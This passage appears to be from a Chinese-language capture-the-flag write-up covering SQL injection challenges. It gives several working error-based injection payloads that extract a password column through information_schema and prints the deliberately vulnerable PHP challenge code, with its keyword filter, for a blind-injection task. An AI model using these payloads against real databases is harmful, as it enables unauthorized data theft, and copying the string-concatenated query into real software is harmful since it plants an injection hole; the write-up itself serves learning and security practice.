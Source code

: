 利用方式:

```
1' or (select count(*) from information_schema.tables group by concat(password,floor(rand(0)*2))) -- 
```

我其实对这种报错方式的原理很好奇，也很不解，有感兴趣的同学欢迎指教。

下面是我对这题的几点疑惑：

特别是使用用户变量时，反应也很神奇，比如这题的另一种解法，不明白其中的原理。

```
 '||(select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2))||' 
```

我当时设想出这样一种解法，但是发现包含有@xxxx 的语句都不会触发这个 bug，除非@xxxx 是纯数字。很迷茫。

```
' or (@lanlan:=password) or (select 1 from(select count(*),concat(@lanlan,floor(rand(0)*2))x from information_schema.tables group by x)a) -- 
```

## Are you blind?

* * *

这题也是一道盲注，可是不管对错返回的结果一样。可以使用 order by 报错的方法来盲注。

漏洞代码：

```
function blightVuln(WC_Challenge $chall, $password, $attempt)
{
        # Do not mess with other sessions!
        if ( (strpos($password, '/*') !== false) || (stripos($password, 'blight') !== false) )
        {
                return $chall->lang('mawekl_blinds_you', array($attempt));
        }

        # And please, no timing attempts!
        if ( (stripos($password, 'benchmark') !== false) || (stripos($password, 'sleep') !== false) )
        {
                return $chall->lang('mawekl_blinds_you', array($attempt));
        }

        $db = blightDB();
        $sessid = GWF_Session::getSessSID();
        $query = "SELECT 1 FROM (SELECT password FROM blight WHERE sessid=$sessid) b WHERE password='$password'";
        return $db->queryFirst($query) ? 
                $chall->lang('mawekl_blinds_you', array($attempt)) :
                $chall->lang('mawekl_blinds_you', array($attempt)) ;
}

```

